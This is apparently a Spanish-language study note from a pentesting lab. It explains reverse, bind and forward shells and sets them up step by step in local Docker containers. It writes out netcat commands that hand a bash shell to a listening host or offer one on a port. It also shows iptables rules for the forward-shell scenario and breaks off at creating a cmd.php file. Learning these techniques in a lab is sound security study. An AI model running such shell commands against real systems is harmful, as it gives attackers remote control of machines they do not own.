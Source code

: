
---------
- Tags: #ReverseShells #BindShells #ForwardShells
---------------
> **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- Creamos un archivo
```bin/bash
nvim dockerfile
```
- Desplegamos la maquina
```bin/bash
docker build -t webserver .
```
- En segundo plano con una consola virtual y de manera interactiva
```bin/bash
docker run -dit -p 80:80 --name myContainer my_image
```
- Conseguir una consola interactiva e instalamos ncat
```bin/bash
docker exec -it myContainer bash
apt install ncat
```
- Con la herramienta netcat ponernos en escucha
```bin/bash
nc -nlvp 443
```
- Desde la maquina interactiva en bash ponemos para recibir conexión
```bin/bash
ncat -e /bin/bash 172.17.0.1 443
```
- Para ver mejor el diseño en pantalla
```bin/bash
script /dev/null -c bash
```

![[Ejemplo de Reverse Shells.png]]


>**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- Con ncat iniciado la maquina interactica con:
```bin/bash
docker exec -it myContainer bash
apt install ncat
```
- Escuchar por el puerto 443 ofreciendo una bash
```bin/bash
ncat -nlvp 443 -e /bin/bash
```


![[Ejemplo de BindShells.png]]

>**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

- Escuchar por el puerto 443 ofreciendo una bash
```bin/bash
ncat -nlvp 443 -e /bin/bash
```
- En otra terminal ingresamos el comando
```bin/bash
nc 172.17.0.2 443
```
- También podemos realizar los siguientes pasos 
```bin/bash
docker rm $(docker ps -a -q) --force
```
- Este comando nos permite instalar iptables en la consola interactiva
```bin/bash
docker run -dit -p 80:80 --cap-add=NET_ADMIN --name myContainer webserver
```
- Corremos el contenedor
```
docker exec -it myContainer bash
```
- En el bash instalamos iptables
```
install iptables
iptables --flush
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 0:65535 -m conntrack --ctstate NEW -j DROP
```
- Nos dirigimos al archivo 
```
/var/www/html/
```
- Instalamos nano
```
apt install nano
```
- Creamos un archivo en la interfaz dinamica
```
nano cmd.php
```

![[Ejemplo de ForwardShells.png]]